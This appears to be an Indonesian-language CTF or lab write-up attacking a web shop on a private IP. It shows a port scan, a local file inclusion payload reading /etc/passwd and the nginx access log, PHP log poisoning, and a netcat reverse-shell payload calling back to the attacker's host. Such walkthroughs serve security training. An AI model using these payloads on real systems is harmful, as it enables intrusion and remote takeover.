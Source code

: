 scan dengan rustscan
```
...
Open 172.20.1.155:80
...
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Good Shoppy;
```

get parameter untuk display invoice, bisa dilihat di inspect element, jawabannya `invoice`

payload untuk LFI `../../../../etc/passwd`

LFI = Local File Inclusion

default path ke nginx log, bisa dicari pakai `../../../../var/log/nginx/access.log`

IP address yang pertama kali akses ke site, nginx log handled oleh service logrotate, dimana akan terjadi backup pada log, dan archive log tersebut, dll. logrotate service menambahkan angka dibelakang old log files. contoh `access.log.1`, `access.log.2`, ...

coba untuk log poisoning. 
```
nc 172.20.1.155 80
GET  /<?php passthru('id'); ?> HTTP/1.1                            
Host: 172.20.1.155
Connection: close
```
lalu coba untuk refresh logfile `view-source:http://172.20.1.155/show-invoice.php?invoice=../../../../var/log/nginx/access.log`

kita akan melihat
```
10.8.2.88 - - [15/Feb/2024:01:11:07 -0500] "Get /uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

selanjutnya kita coba ubah payload
```
nc 172.20.1.155 80
GET  /<?php passthru('nc -e /bin/sh 10.8.2.88 2222'); ?> HTTP/1.1
Host: 172.20.1.155
Connection: close
```
selanjutnya buat listening `ncat -lvnp 2222`, dan kita reload logfile di web, kita akan mendapat shell.
